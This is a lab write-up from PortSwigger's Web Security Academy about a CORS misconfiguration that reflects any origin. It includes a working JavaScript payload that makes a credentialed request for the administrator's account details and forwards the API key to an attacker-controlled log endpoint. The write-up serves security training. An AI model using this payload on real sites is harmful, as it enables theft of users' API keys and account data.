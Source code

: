 CORS Portswigger: https://portswigger.net/web-security/cors


# 1)Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

 ####  Solution

1. Check intercept is off, then use the browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header:
    
    `Origin: https://example.com`
4. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
5. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with your unique lab URL:
```
<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>
```

1. Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
2. Go back to the exploit server and click **Deliver exploit to victim**.
3. Click **Access log**, retrieve and submit the victim's API key to complete the lab.

